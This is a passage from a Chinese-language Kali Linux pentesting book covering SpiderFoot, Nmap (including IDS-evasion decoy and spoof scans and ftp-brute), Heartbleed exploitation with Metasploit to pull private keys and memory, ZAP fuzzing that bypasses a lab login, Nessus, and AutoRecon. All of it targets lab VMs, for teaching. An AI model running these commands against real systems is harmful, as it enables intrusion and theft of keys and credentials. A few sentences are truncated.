> ➢  为扫描输入一个描述性名称

> ➢  输入“Seed Target”（种子目标）

“Seed Target” 是我们正在寻找的信息——这可能包括个人、电话号码、用户名、电子邮件地址、域名或 IP 地址。


输入的任何名称必须加引号。

> ➢  选择“By Use Case”（按用例），我直接选择了“all”（全部）

注意，你可以运行不同类型的用例扫描 - Footprint（足迹探测）、Investigate（调查）和 Passive（被动）。如果你愿意，还可以设置“By required Data”（按所需数据）和“By Module”（按模块）。我将它们留在了默认设置。


一切准备就绪后，我们可以开始搜索了。

> ➢  点击“Run Scan”（运行扫描）

> ➢  去喝杯咖啡

好了，名字搜索花费不了多久，但取决于我们要搜索的信息以及提供了多少 API 密钥，某些扫描可能需要一段时间。

扫描完成后，会给出一个摘要页面：


要查看收集的数据，你可以选择“Browse”（浏览）查看类似表格的视图。


或者选择“Graph”（图形）查看连接图。


如果你好奇的话，我的名字搜索中发现的连接实际上并没有一个我。所以，这次扫描在这种情况下帮助并不大。但在搜索其他名字时，我发现了一些有用信息。

### 网站搜索

SpiderFoot（免费版）真正出彩的地方在于网站侦察。在下一个示例中，我对我的博客执行了被动扫描。我选择被动是因为不会直接对目标进行任何扫描。主动扫描将直接扫描目标并返回有关服务器本身的信息。

只需给 SpiderFoot 域名，选择你的用例，让它发挥作用即可。


这次它发现了更多信息：


点击“Browse”查看实际收集的数据。如你所见，它收集的信息比人员扫描要多得多。它发现了 DNS 和主机记录、电子邮件等。很棒的一点是它不仅收集了直接目标的域名信息，还收集了托管公司的信息。


它恢复的一些信息可以追溯到 10 多年前！


如果你选择了 Graph 模式，有两个选项：Random（随机）和 Focused（聚焦）。Random 每次创建一个不同的连接图。Focused 则更侧重于目标的实际连接。

如下所示：


图中的红点是目标，所有的黑点和线都是不同的连接。

### 添加 API 密钥

SpiderFoot 在执行目标搜索时可以访问许多研究和情报站点。这些包括欺诈与恶意软件研究站点、AlienVault Open Threat Exchange、HaveIBeenPwned、Shodan 和 Google Maps。如开头所述，为这些站点提供注册的 API 密钥将产生更多关于目标的信息。这在执行威胁情报或安全研究时非常有益。

添加 API 密钥非常简单。一旦你获得了某个服务的 API 密钥，只需进入 `Settings` 菜单页面。选择你想添加 API 密钥的站点——这些站点旁边都有锁图标。添加 API，然后点击“Save Changes”（保存更改）。


添加后，SpiderFoot 将在相关搜索期间自动使用该 API 密钥。它将跳过任何你没有 API 密钥的服务。仅提供一个 API 密钥生成的比仅使用默认扫描有用信息多得多。如下所示，与第一次 CyberArms 扫描相比，添加一个 API 密钥就提供了近 180 个额外数据元素。


这包括开放端口：


如果该系统是一个蜜罐，或存在已知漏洞，SpiderFoot 还能从 Shodan 提取这些信息。下面的示例显示了由 Shodan 检测到的真实蜜罐。


### 电话号码

最后，你可以使用 E.164 格式使用 SpiderFoot 搜索电话号码，格式为“+”、国家代码、区代码、号码（例如 +18888888888）。搜索电话号码很快，但返回的信息不多。不过，它显示了美国城市，以及使用该号码最多的电话交换机的经纬度。


有趣的是，它意外地包含了我测试的手机甚至 Google 号码的这类信息。虽然我只测试了几个，但这可能表明 Google 号码可能不像人们想象的匿名。

## 结论

这只是对使用 SpiderFoot 进行 OSINT（开源情报）的简介。SpiderFoot 是一个强大的 OSINT 和侦察工具。与许多 OSINT 工具不同，SpiderFoot 非常易用，并能从多个服务返回深度广泛的信息。记住，Kali 自带的版本只是该工具的免费版。还有几个“付费”版本。这些版本提供了更长的扫描时长、攻击面监控以及截图功能。

# 第 9 章

## Nmap

在我的基础书中，我们简要学习了如何使用 `nmap` 扫描系统开放端口并进行软件版本识别。Nmap 是一个不可不可少的工具，你不仅可以扫描端口和系统版本信息，还可以检测漏洞。因此，在本节中，我想仔细查看 `Nmap` 及其可用功能。Nmap 是一个较旧的工具，但每次更新都带来了新的操作系统版本、应用程序和服务的识别能力。

对于本教程，我们将使用 Metasploitable2 虚拟机，因为它为我们提供了许多目标端口供扫描。

工具作者：Gordon Lyon

工具网站：[`nmap.org/`](http://nmap.org/)

手册页面：[`nmap.org/book/man.html`](http://nmap.org/book/man.html)


### Nmap - 基础扫描

让我们来看基础扫描。你可以根据需要使用 `-v` & `-vv` 详细开关来增加 nmap 扫描返回的详细程度。

> ➢  快速端口扫描：`nmap [Target IP]`

此快速扫描检查服务器是否在线，然后显示开放端口：


> ➢  快速扫描 (-F): `nmap -F [Target IP]`

此扫描比快速扫描还要快。它检查主机是否在线并检查较少的开放端口：


Metasploitable VM 开放了许多端口，提供了多种攻击途径。但仅仅知道端口已开启是不够的。`nmap` 将扫描端口并尝试确定正在运行的服务类型和版本。一旦我们获取了特定的服务信息，就可以开始寻找可能存在的漏洞。

> ➢ 软件检测 (-A): `nmap -A [Target IP]`

此扫描运行可能需要一段时间，但它可以检测并显示操作系统和软件版本：


现在让我们再次运行命令，这次设置 `-v`（详细）切换，然后再次设置 `-vv`（非常详细）切换来查看差异。将下面的两张图像与上面的那张进行对比：


注意，随着你从不使用详细切换到使用 `-vv` 切换，添加的信息级别也随之增加。这可能有用或没有帮助，取决于你在扫描结果中正在寻找的内容。

### 扫描特定端口

`nmap` 还允许你将扫描精炼到特定的端口或协议。我知道有些渗透人员甚至不再打算使用 `nmap` 了——他们直接针对数据库服务器或尝试钓鱼攻击。但如果你愿意，可以扫描特定端口，或服务器上的特定端口。

> ➢ 端口扫描 (-p): `nmap [Target IP] -p 21`

这可以快速扫描某个端口：


> ➢ 多个端口: `nmap [Target IP] -p 21,25,80:`


> ➢ 扫描常用 TCP 端口: `nmap [Target IP] --top-ports <number>`

此命令扫描你指定的数量的常用端口。因此，如果你使用 `--top-ports 10`，它将扫描前 10 个 TCP 端口。

如下所示：


> ➢ 扫描 UDP 端口 (-sU): `sudo nmap -sU [Target IP] -p 53`

你可以使用 `-sU` 切换扫描 UDP 端口。此扫描需要 root 权限运行。


### 使用多个切换

将所有这些在一起——你可以将多个切换组合使用，以真正精调你在扫描中要寻找的内容。组合切换仅会在感兴趣的端口上显示重要信息。例如，我们可以结合 `-A`（服务检测）和 `-v`（详细）切换以及指定的端口。

> ➢ `nmap -A -v [Target IP] -p 21,25,80`


仔细观察检测到的服务及其软件版本。正如我在第一本书中演示的那样，扫描端口并发现正在运行哪些服务以及这些服务的版本，是利用系统的关键。在最简单的层面，找到服务软件版本并搜索漏洞利用。你可以使用 Metasploit 处理 Metasploitable VM 中的许多漏洞，但你也可以使用 `nmap` 脚本来发现、有时利用这些漏洞。

### 使用脚本

脚本基本上是为 `nmap` 提供额外能力的程序。有许多脚本可以配合 `nmap` 使用，将其从一个简单的扫描器修改为复杂的测试工具和攻击性平台。在 `nmap` 页面上提供了带说明的脚本列表：

> [`nmap.org/nsedoc/index.html`](https://nmap.org/nsedoc/index.html)

让我们详细查看其中几个。要查看安装了哪些脚本，请检查 `/usr/share/nmap/scripts` 目录。需要注意的是，如果脚本不起，目标可能没有漏洞，或者你可能没有安装单个脚本网页上列出的所有文件。

### 针对感兴趣文件夹的 HTTP Enum

脚本网页：[`nmap.org/nsedoc/scripts/http-enum.html`](https://nmap.org/nsedoc/scripts/http-enum.html)

HTTP Enum 是一个快速目录枚举器，形式类似于 Nikto Web 应用扫描器。

> ➢ `nmap -p80 --script http-enum [Target IP]`


如果我们导航到 Tikiwiki 页面，我们会看到这个：


服务器上未经过正确设置的 Web 服务，嗯，很有趣。我很喜欢关于根密码为“YES”的错误信息。我想知道这些信息在真实的渗透测试中会有用吗？

### FTP 破解攻击

脚本网页：[`nmap.org/nsedoc/scripts/ftp-brute.html`](https://nmap.org/nsedoc/scripts/ftp-brute.html)

首先是 FTP 破解脚本：

> ➢ `nmap --script ftp-brute [Target IP] -p 21`

为了看到它到底在做什么，我们可以使用 Wireshark 进行实时查看。

> ➢ 在命令运行时，打开第二个终端
> ➢ 从菜单或通过输入 `wireshark` 启动 Wireshark
> ➢ 点击 `eth0` 将其高亮，然后右键点击并选择“Start Capture”（开始捕获）


就是这样，一次扫描就列出了极其大量的漏洞！该脚本依赖服务检测和 CVE 查找，但它非常有用的脚本。Scip AG 开发的 `Vulscan` 是另一个有趣的模块，但你需要从他们的 GitHub 页面安装它 - [`github.com/scipag/vulscan`](https://github.com/scipag/vulscan)。

## OpenSSL-Heartbleed - 扫描与利用

几年前，`OpenSSL-Heartbleed` 漏洞引起了巨大的轰动。难以置信的是，一年后，仍有大部分面向网络的服务器从未被完全修复：

[`www.venafi.com/blog/post/still-bleeding-one-year-laterheartbleed-2015-research/`](https://www.venafi.com/blog/post/still-bleeding-one-year-laterheartbleed-2015-research/)

根据报告，直到去年，在线上仍有超过 200,000 台受 `Heartbleed` 漏洞影响的可利用机器。`Heartbleed` 并不是唯一的，还有大约 240,000 台在线系统容易受到 `BlueKeep` 漏洞的影响 - 这是 2019 年一个流行的漏洞¹。如你所见，尽管漏洞已经公开，但仍有很多系统从未过补丁。

让我们来看看如何使用 `nmap` 扫描漏洞系统并使用 `Metasploit` 对其利用。对于漏洞服务器，我使用了一个手头现有的过旧 Wordpress 虚拟机。所以，除非你手里正好有一个旧的 WordPress 虚拟机，否则这更像是一篇读物而非实际的操作演示。但这种技术是可靠的，至少能帮助你学习如何扫描漏洞。

### Nmap - 扫描 Heartbleed

我们所做的就是使用 Heartbleed 脚本，并添加目标站的 IP 地址，在本例中为 `192.168.1.71`。

> ➢  `nmap [IP Address] -p 443 --script ssl-heartbleed`

如果目标机器存在漏洞，我们将看到这些：


> State: VULNERABLE（有漏洞）
> Risk Factor: High（高风险）

### 使用 Metasploit 进行利用

现在我们知道有一个漏洞服务器了，可以使用 `Metasploit` 的 OpenSSL-Heartbleed 模块对其进行利用。（注意：你也可以用此模块检测漏洞系统。）

> ➢  在终端中运行 `msfconsole` 启动 Metasploit

> ➢  接下来搜索 Heartbleed 模块：


注意有两个，我们将只使用扫描器。

> ➢  输入 `use auxiliary/scanner/ssl/openssl_heartbleed`：


我们可以通过该模块采取三个操作。我们可以对漏洞进行“扫描（Scan）”、从系统“转储（Dump）”内存，或者尝试恢复 RSA 私“钥（Key）”。我们先看能否从目标中恢复私钥。

> ➢  首先输入 `set rhosts [Kali_IP]`

> ➢  然后输入 `set action KEYS`

> ➢  最后输入 `exploit`：


几秒钟内，它就恢复了私钥！我们也可以尝试使用“Dump”操作从远程系统获取随机内存。

> ➢  输入 `set action DUMP`

> ➢  然后输入 `exploit`


注意恢复的数据存储在 `/root/.msf4/loot` 目录下：


如果你用 Linux 的 `strings` 命令查看该二进制文件，你会发现 Metasploit 与服务器进行了通信，并能够从服务器内存中提取出随机数据：


这里需要注意的是，它是从内存中提取随机数据。无法保证你每次运行都能找到账户凭据、会话 Cookie 数据或关键数据。但危险之处在于它可能会显示敏感数据。

## IDS 规避与高级扫描

在结束本节之前，让我们快速查看 Nmap 的 IDS 规避和高级扫描选项。Nmap 扫描可以被修改以尝试绕过入侵检测系统或掩盖攻击者。我们将使用 Wireshark 分析其中几个操作以查看差异。

对于每一项，只需启动 Wireshark（输入 `Wireshark`，选择接口 `Eth0` 并点击“Start Scan”），在你运行各个 Nmap 命令时让它运行，然后对比扫描结果。

### 基准扫描 - 普通扫描

命令：`nmap [Metasploitable2_IP]`


如你所见，结果非常有条理。扫描产生了大量的顺序往返流量。这在 IDS 和其他网络监控系统面前非常显眼。同时注意流量是直接在我们的 Kali 和目标系统之间的。任何人都能快速看到扫描源自何。

### 分片扫描

命令：`nmap -f [Metasploitable2_IP]`


通过分片扫描，nmap 发送多个数据包以尝试绕过 IDS。分片被重组，然后目标做出响应。

### 诱骗扫描

命令：`nmap [Metasploitable2_IP] -D 192.168.1.20,10.0.0.34,0.0.0`

诱骗扫描开始变得有趣。这种扫描允许你输入一组虚假的 IP 地址字符串作为诱饵，使其看起来像。

### 伪装扫描

命令：`nmap [Metasploitable2_IP] -S 192.168.1.168 -e eth0`


伪装扫描很有趣。你进行扫描。

## 扫描 BlueKeep 漏洞系统

我在本章开头提到过 BlueKeep。如果你想对 Windows 系统进行此漏洞扫描，有一个由 Robert Graham 开发的棒工具。可以在他的网站上找到——[`github.com/robertdavidgraham/rdpscan`](https://github.com/robertdavidgraham/rdpscan)

安装和使用说明请查看 graham 的页面。

这个工具的棒在于你可以结合 `MassScan` 使用 - 这是一个大规模、高速的互联网扫描器。如果你以前没用过 MassScan，它基本上是一个非常快的 `nmap`。你必须非常小心使用 MassScan，如果设置不当，你最终会扫描整个互联网 - 虽然这确实是它设计的目的，但并不是个好主意。许多组织都不乐意自己的系统被扫描，如果你这样做了，你的 IP 可能会被互联网封禁。

基础 LAN 扫描如下：

images/00159.jpg)

## 总结

在本章中，我们学习了如何使用 nmap 执行基础系统扫描。我们还学习了如何使用 nmap 脚本极大扩展 nmap 的功能。我们没有涵盖 nmap 的所有特性，如 ARP 扫描、Ping 扫描、圣诞树扫描或时序攻击，也没有查看每一个脚本。这些信息可以在帮助文件和在线手册中找到。提供的帮助信息非常直观，我建议花些时间尝试它们，以便你非常熟悉 nmap 的功能。

多年来，端口扫描的合法性存在很多问题和争议。在 nmap 官方网站上关于这一点有一篇很好的介绍——[`nmap.org/book/legal-issues.html`](https://nmap.org/book/legal-issues.html)。一如既往，最好的建议是永远不要对你没有获得许可的网络或系统使用任何安全工具。


这只是对 NMAP 的基本概述，它是一个功能丰富且惊人的工具。如果你想学习更多关于使用 `nmap` 等工具进行网络扫描，我强烈推荐 Justin Hutchens 编写的《Kali Linux 网络扫描实战》（Kali Linux Network Scanning Cookbook）。这绝对是我见过的关于扫描的最佳且最详尽的书之一。

## 参考文献

1. > “BlueKeep 仍在困扰数千个企业系统” - https://www.itpro.co.uk/security/357790/bluekeep-still-haunting-thousands-of-enterprise-systems

## 第 10 章

### OWASP ZAP

工具网站：[`www.zaproxy.org/`](https://www.zaproxy.org/)

工具 GitHub：[`github.com/zaproxy`](https://github.com/zaproxy)

OWASP Zed Attack Proxy (ZAP) 或 `ZaProxy` 是一种 Web 扫描和测试工具，安全专业人员和开发者都可以使用。安全测试人员通常用它来扫描已部署或测试部署环境中的活动威胁。开发者可以使用它在项目开发期间检测问题。

ZAP 拥有许多功能和能力。我们将仅涵盖一些安全测试中常用的功能。我们将使用 Ubuntu Metasploitable 系统作为目标。你可以从 Web 应用程序代理菜单或从命令行 `zaproxy` 启动 OWASP ZAP。当你启动程序时，系统会询问你是否想要“持久化 ZAP 会话”（persist the ZAP Session）。这将存储活动会话以便你以后回来。现在，只需选择“不，我现在不想持久化此会话”并点击“开始”：


随后你会被提示更新 Zap 插件（Add Ons），只需点击“全部更新”。


OWASP ZAP 主界面分为三个部分：左上角的“站点”（Sites）窗口、右上角的快速启动/请求/响应窗口，以及底部的消息框。

### OWASP ZAP - 快速扫描与攻击

我们将通过“快速扫描与攻击”快速进入操作：

> ➢ 点击“自动扫描”（Automated Scan）
> ➢ 输入目标地址（Ubuntu Metasploitable 系统）
> ➢ 点击“攻击”（Attack）按钮


这将对整个目标网站进行爬取并扫描漏洞。扫描进度和发现的页面将显示底部窗口。完成后，点击“警报”（Alerts）查看网站的任何安全问题：


如你所见，ZAP 发现了该网站的多个问题。每个文件夹包含不同类型的安全问题，并按严重程度进行颜色标记。现在，让我们检查第一个警报，即“跨站脚本”（Cross Site Scripting）文件夹。点击展开它，然后点击其中一个警报：


在右侧你将看到存在问题的页面及其风险级别：


OWASP ZAP 还解释了该错误：

> “持久性攻击发生在恶意代码被提交到网站并在其中存储一段时间时。攻击者心中喜爱的目标通常包括论坛帖子、网络邮件信息和网络聊天软件。毫无防备的用户不需要与任何额外的站点/链接（例如攻击者站点或通过电子邮件发送的恶意链接）交互，只需查看包含代码的网页即可。”

基本上，这意味着攻击者可以在 Web 服务器上保存代码，当用户访问网页时这些代码就会发动攻击。OWASP-ZAP 发现的每一个警报都包含一个保护你的系统免受发现漏洞攻击的解决方案。如解决方案（Solution）框所示。花几分钟检查警报和结果，从攻击者和防御者的角度来看，这些信息非常有帮助。

### ZAP 中间人代理攻击

现在我们已经看到了快速扫描功能，让我们来看看如何使用中间人（MitM）代理功能以获得更好的结果。从创建一个新会话（New Session）开始。

> ➢ 点击“文件”（File）然后选择“新会话”（New Session）

这将从数据库中移除收集的数据并为我们提供一个全新的环境。或者直接关闭 ZAP 并重启它。

> ➢ 从主菜单点击“手动浏览”（Manual Explore）
> ➢ 填写 Mutillidae 的 URL


> ➢ 现在，点击“启动浏览器”（Launch Browser）

你现在应该看到 Mutillidae 站点和 ZAP HUD。

> ➢ 点击“继续访问目标”（continue to target）

现在中间人代理已设置，访问 Mutillidae 菜单（`Ubuntu_Mutillidae_IP/mutillidae`）并打开几个页面。这样中间人拦截代理就可以充分查看它们。在你打开的每个页面中，按要求填写输入内容，例如：

1. ➢ 点击“Owasp 2017”
2. ➢ 从“A1 Injection (Other)”菜单选择“命令注入”（Command injection）和“DNS 查找”（DNS lookup）。
3. ➢ 查找 DNS 名称。如果你愿意，可以使用本地机器：


4. ➢ 现在从 OWASP 2017 菜单选择，“A1 Injection (SQL)/”
5. ➢ 绕过身份验证（Bypass Authentication）
6. ➢ 高亮用户名 `testing`
7. ➢ 注意到你可以使用的大量不同攻击类型。
8. ➢ 点击 `jbrofuzz` 旁边的三角形展开选项：
9. ➢ 点击“确定”（OK）继续。
10. ➢ 现在只需点击“开始模糊”（Start Fuzzer）开始：


运行可能需要一点时间，但在几秒钟内，你就应该能在警报窗口中看到多个 SQL 注入攻击及其状态：


现在，基本上只需查看返回结果，看看哪些是成功的，哪些是失败的。你会注意到，尽管我们是以“testing”身份登录的，但某些返回结果顶部的响应状态窗口显示了不同的内容：


“Logged-In-User: admin”，说明模糊测试（fuzzing）成功了，且 Zap 能够登录“admin”账户！OWASP ZAP 可以让对网站进行众多安全问题的测试变得非常快速简单！

## 结论

在本节中，我们查看了 OWASP ZAP，并学习了如何完成快速扫描攻击，以及如何使用代理拦截输入以便进行更深层次扫描。然后，我们学习了如何使用多个负载（payload）对网页变量进行模糊测试，使安全扫描变得快速简单。在安全防御方面，对网站运行爬虫程序（spider）是一种非常沉重且噪音很大的攻击。如果你打开终端并在爬虫运行时运行 `wireshark`，你将看到大量流量在我们的 Kali 系统和目标之间来回：


两个系统之间持续的流量会被网络安全监控（NSM）系统轻易注意到。另一方面，某些程序由于这个原因提供了隐身选项。这就是为什么在每次实战安全任务中使用工具之前，有必要完全理解你正在使用的工具。

## 资源与参考文献

> ➢ ZaProxy Wiki - [`code.google.com/p/zaproxy/wiki/Videos`](https://code.google.com/p/zaproxy/wiki/Videos)

> ➢ OWASP SQL 注入防护备忘表 - [`www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)

# 第 11 章：商业 Web 应用扫描器

市场上存在多种商业 Web 应用扫描器。某些工具提供免费的家庭用户版本，许多工具提供限时免费试用。安装和使用总体上非常相似，尽管功能各不相同，有些可以通过额外的插件进行修改。如果你在为公司选择一个，我能提供的最好建议就是研究你的需求并与可用工具进行比较。获取试用版本并尝试，看看它是否能满足你的需求。商业扫描工具列表可以在 OWASP 网站找到：

[`www.owasp.org/index.php/Category:Vulnerability_Scanning_Tools`](https://www.owasp.org/index.php/Category:Vulnerability_Scanning_Tools)

在本节中，我们将查看最流行的商业扫描器之一：Nessus。在书的后面，我们将查看 Kali 自带的多个工具，这些工具要么是开源/免费的，要么拥有你可以升级的商业版本。

### Nessus

Nessus 不包含在 Kali 中，它是一个需要购买的授权程序。但你可以从 Nessus 网站获取试用版进行尝试。要获取 Nessus Professional 的试用版，请前往 ([`www.tenable.com/try`](https://www.tenable.com/try)) 并请求评估密钥。然后从下载页面下载适用于 Kali Linux 的 Nessus Pro 并安装它：


启动 Nessus 进程：

> ➢ 输入，`/bin/systemctl start nessusd.service`
> ➢ 然后访问 `https://kali:8834/`

这将启动注册过程：


在配置向导期间，你将：

> ➢ 创建一个 Nessus 程序管理员账户
> ➢ 输入产品注册码（或评估代码）

完成后，Nessus 会下载更新和最新插件。这可能需要一些时间。完成后，直接登录。

### Nessus - 基础扫描

你可以跳过“Host Discovery”（主机发现）页面。让我们从对 Mutillidae 2 VM 执行基础扫描开始。

> ➢ 点击“Create a New Scan”（新建扫描）
> ➢ 然后“Basic Network Scan”（基础网络扫描）

这将打开基础网络扫描表单。

通常你会在每个标签页中填写信息以执行专业扫描，但对于快速测试，只需进入“General Tab”（常规标签）。为扫描输入名称（我只用了‘test’），并将 Mutillidae 的 IP 地址作为目标地址：


> ➢ 然后点击“Save”（保存）
> ➢ 现在，点击“test”前面的复选框并点击启动按钮（播放图标）。

Nessus 将开始扫描目标网站。你可以点击正在进行的扫描以显示状态页：


点击“Vulnerabilities”（漏洞）标签页查看发现的问题：


Nessus 发现了 71 个漏洞。注意，其中几个是后门或“远程获取 Shell”——这是你绝对不希望在网络中发现的东西！点击单个项目将显示该问题的深度解释以及如何解决。

让我们快速查看一下严重漏洞“Rogue Shell Backdoor Detection（检测到异常 Shell 后门）”：


根据此消息，在端口 1524 上有一个名为 `wild_shell` 的异常 Bind Shell 后门。我们如何检查这是否属实？使用 Netcat！Netcat 是一个像瑞士军刀一样完美的工具，在很多方面有用。只需打开终端，运行 Netcat 并添加目标 IP 地址和端口。

如下所示：

> 

我们分析了 Nessus 扫描返回给我们的信息。在此过程中，我们发现了一个后门漏洞。然后我们仅通过运行 Netcat 就证明了它的存在！在我继续之前，最后一个要查看的信息标签页是“Remediation”（修复）。此部分提供了关于纠正漏洞的额外建议：


### Nessus - Web 应用测试

基础扫描发现了影响我们目标的基础服务器问题。让我们再次扫描 Mutillidae，但这次我们将寻找 Web 应用漏洞。我们还将更改一些额外选项以获得更深入扫描。

> ➢ 创建新扫描
> ➢ 点击“Web Application Tests”（Web 应用测试）
> ➢ 在“General”标签下 - 输入测试名称（Test2）和目标 IP 地址
> ➢ 在“Assessment”（评估）下 - 将“Scan Type”设置为“Scan for all vulnerabilities (complex)”（扫描所有漏洞（复杂））：


这种更深复杂的扫描将遍历 Mutillidae 系统寻找问题。

> ➢ 最后点击“Save”（保存）并开始扫描


你可以通过包含网站凭据和登录请求脚本在 Nessus 中执行更高级的扫描。这有助于发现 SQL 注入和脚本问题。我们不会涵盖这些，但稍后将介绍使用 Burp Suite 测试 SQL 注入的其他方法。

## 结论

正如我们用 Nessus 所示，商业扫描解决方案可以非常方便地与 Kali Linux 安装并使用。有些公司乐于使用开源扫描工具，而一些较大的实体更倾向于专业版。什么最适合你的需求？只有你自己才能回答。我强烈建议对这些工具感兴趣的人研究他们公司的需求/要求，以找到最匹配的解决方案。

# 第 12 章：使用 AutoRecon & Interlace 进行自动扫描

在进入网站攻击之前，我想简要讨论一下自动扫描。通常，所有专业安全测试人员都有一套通常用于侦察的工具包。在大多数情况下，他们会尝试尽可能自动化扫描。这对于参加耗时较长的考试——如 OSCP——尤其如此。在本章中，我们将两个解决方案：`AutoRecon`，一个自动化许多扫描和枚举过程的工具；我们还将查看 `Interlace`，一个允许你创建自己的多线程工具包的工具。

## AutoRecon

工具作者：Tib3rius

工具 GitHub：[`github.com/Tib3rius/AutoRecon`](https://github.com/Tib3rius/AutoRecon)


`AutoRecon` 是一个多线程侦察工具，它集成了许多其他扫描和枚举工具。它是许多准备 `OSCP` 者的青睐，在 `CTFs` 和实战对抗中也很有用。目前的默认配置也是 `OSCP` 安全的，因为它不会执行任何自动化漏洞利用。尽管一旦你习惯了它的工作方式，你可能想根据自己的喜好对其进行调整。

### AutoRecon 使用的工具列表


## AutoRecon - 在 Kali Linux 上安装

`Kali Linux` 没有预安装 `AutoRecon`。你需要安装它，以及它用于执行扫描和枚举的众多工具。其中一些工具已经预装在 Kali Linux 中。

在 Kali 中打开终端并输入：

```bash
sudo apt install seclists curl enum4linux feroxbuster impacket-scripts nbtscan nikto nmap onesixtyone oscanner redis-tools smbclient smbmap snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf
```

```bash
sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
```

## AutoRecon - 扫描命令

`AutoRecon` 可以针对单个目标或目标范围工作。扫描期间运行哪些工具取决于 `AutoRecon` 在扫描过程中检测到的内容。例如，如果它检测到基于 Linux 的系统，将使用 Linux 攻击工具，以此此类推。有许多扫描选项。让我们来看基础扫描。在第一次运行几次时，我会建议使用详细模式（`-v`）开关，这样你可以看到 `AutoRecon` 实际上在做什么。由于它运行许多不同的工具，完成可能需要很长时间。

### 基础扫描

```bash
sudo AutoRecon [Target_IP] -v
```


首先 `AutoRecon` 执行端口和服务扫描。然后它会为每个服务和端口启动单独的扫描。


完成后，你将在 `Results` 目录下找到一份完整的报告。每个目标都有一个以 `IP` 命名的独立目录。在每个文件夹内部，你会找到子目录 - `Exploit`、`Loot`、`Report` 和 `Scans`。


`exploit` 目录用于任何配合 `AutoRecon` 使用的代码。如果在扫描期间恢复了任何敏感数据，将位于 `Loot`。`report` 目录在编写报告时有用，并包含了截图。`Scans` 目录包含所有扫描的工具输出，并按端口排序。


在扫描目录下有一个非常有用的文件 `manual_commands.txt`，它包含了可以手动运行的进一步漏洞利用命令。这些建议是基于 `AutoRecon` 发现的结果。花几秒钟查看 `Manual Commands` 文本文件：


如果你愿意，完全可以直接将这些命令复制并粘贴到 Kali 终端中运行。


回到 `Results` 文件夹 - 检查每个子文件夹查看单个端口的结果。以下是端口 `697` 的扫描结果。


在这份特定的报告中，我们看到 `AutoRecon` 发现了一个非常旧的 `IRCd` 版本。这是该系统众多漏洞之一！其他目录将包含目录爆破列表。目录爆破是自动寻找目录的工具，使用词表枚举网页。`Feroxbuster` 是默认的目录扫描器，但你可以在设置中将其更改流行的工具之一。你也可以找到截图。


## AutoRecon 结论

与任何自动化工具一样，你在测试期间会产生大量的“噪声”。特别是当主工具仍在运行时，你运行推荐的手动命令时。这可以通过启动 Wireshark 并直接点击 `eth0` 接口看到。


`AutoRecon` 有许多扫描、开关和选项。查看该工具的 GitHub 以获取更多说明。

## Interlace - 运行你的扫描器

工具作者：Michael Skelton & Sajeeb Lohani
工具 GitHub：https://github.com/codingo/Interlace

如果你去 GitHub 搜索“OSCP Scanner”，你会发现很多工具。问题是，很多已经过时或失效。这些工具在作者为他们的 `OSCP` 备考创建它们时是有效的，但一段时间后它们停止了更新。使用网络上随机工具的另一个问题是，在你自己的环境中运行它之前，你需要阅读代码并确保知道工具实际上在做什么。解决这个问题的答案是？创建你自己的扫描器！一个可以帮助它的工具是 `Interlace` - 一个帮助自动化和多线程你常用工具的程序。

基本上，`Interlace` 接收任何工具或工具集并对其进行自动化，在多线程环境中运行。你可以通过创建一个包含命令列表的文本文件以及另一个包含目标列表的文件来增强 `interlace` 的功能。`Interlace` 会遍历这两个文件并自动化整个过程。

```bash
git clone https://github.com/codingo/Interlace.git
cd Interlace
python3 setup.py install
interlace -h
```


`Interlace` 通过向工具输入变量工作。在运行单个工具时，变量会被替换为实际的目标或端口。变量包括 `_target_`、`_port_` 和 `_output_`。查看这是如何运作的最简单方法是实际使用该工具。

### Interlace - 单目标

让我们开始使用 `Nikto` 对单个目标、多个端口进行扫描。

```bash
interlace -t 172.24.1.233 -threads 5 -c "nikto --host _target_:_port_ > ./_target_-_port_-nikto.txt" -p 80,443
```


在上面的示例中，`interlace` 正在针对 `Metasploitable` 目标运行 `Nikto`，测试端口 80 和 443。输出随后存储在按 IP 和端口号列出的文本文件中。注意变量 `_target_` 和 `_port_` 同时在 `Nikto` 命令和输出中使用。目标 IP 和端口在工具运行时被自动插入。因此，实际上运行了两个 `Nikto` 命令。这如上面的图片所示。仔细观察图片，你可以看到 `Interlace` 如何动态生成 `Nikto` 命令，并自动插入了 IP 地址和端口。

`Interlace` 生成了两个 `Nikto` 命令：

```bash
Nikto --host 172.24.1.233:80
Nikto --host 172.24.1.233:443
```

以及结果文件的输出：

```text
172.24.1.233-80-nikto.txt
172.24.1.233-443-nikto.txt
```

最后，输出文件存储在运行命令的目录中。


然后你可以查看文本文件查看单个报告：


### Interlace - 多命令与多目标

`Interlace` 还允许你使用文本文件针对多个目标运行多个命令。一个文本文件存放你的命令，另一个存放你的目标列表。为了看到实际效果，让我们针对两个目标运行 `Nmap` 和 `Nikto`。我们首先创建一个名为 `commands.txt` 的文本文件，包含以下命令：

```text
nmap _target_ > _output_/_target_-nmap.txt
nikto --host _target_:_port_ > _output_/_target_-nikto.txt
```

这将针对我们选择的目标运行 `Nmap` 和 `Nikto`。注意 `nmap` 和 `nikto` 命令略有不同。这是因为 `Nmap` 和 `Nikto` 要求输入 IP 地址和端口的方式略有不同。只需像常一样编写你的命令，但将目标 IP 替换为 `_target_`，并将端口替换为 `_port_`。


我们需要手动创建一个输出目录。然后我们可以使用 `targets.txt` 和 `commands.txt` 文件运行 `interlace`，并配合 `-o` 参数指定输出目录。

如下所示：

```
mkdir output
interlace -tL targets.txt -threads 5 -cL commands.txt -p 80 -o output/
```


我们现在可以通过 `Interlace` 自动运行 `Nmap` 和 `Nikto` 了！和之前一样，你可以看到当 `Interlace` 生成命令时，IP 地址和端口已正确且自动地插入。

当命令完成后，我们应该会在输出文件夹中看到报告：


这应该能帮助你入门。接下来要做什么？将其变成你自己的工具！放入你喜欢的工具，看看哪些工具对你最有效。关键在于构建你自己的工具箱。你可能希望确保某些命令在其他命令之前完成；这可以通过 `blocker` 命令实现。完整的工具用法说明（包括如何使用阻塞器）在工具网站上有所介绍。

## 资源与参考文献

- `Interlace` GitHub - [`github.com/codingo/Interlace`](https://github.com/codingo/Interlace)
